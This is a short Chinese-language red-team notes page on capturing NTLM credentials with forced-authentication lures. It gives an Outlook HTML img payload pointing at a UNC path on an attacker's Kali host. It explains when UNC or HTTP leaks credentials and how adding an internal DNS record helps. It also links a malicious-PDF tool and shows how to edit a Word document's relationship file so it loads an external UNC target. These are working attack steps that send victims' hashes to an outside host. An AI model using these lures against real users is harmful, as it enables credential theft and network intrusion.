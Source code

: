 **outlook**

发送邮件支持 html，outlook 里面的图片加载路径支持 UNC,构造 payload

```
<img src="\\<kali ip>\outlook">
<img src="http://test/">
```

这里支持两种协议,区别如下
- UNC 默认携带凭据, 但是如果 IP 是公网 IP 的话, 很多公司是访问不到公网 445 的
- HTTP 协议默认不携带凭据, 只有信任域 (域内 DNS 记录) 才会携带凭据. 域内的成员默认有增加 DNS 的权限, 可以用域内成员的权限在内网增加一条 DNS 记录.

**pdf**
- [deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)
  - [NTLM Credentials Theft via PDF Files](https://research.checkpoint.com/2018/ntlm-credentials-theft-via-pdf-files/)

**office**

新建一个 word，添加一张图片

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/15.png)

然后用 7zip 打开，进入 `word\_rels`，修改 `document.xml.rels`

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/16.png)

Target 参数修改为 UNC 路径，然后加上 `TargetMode="External"`

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/17.png)
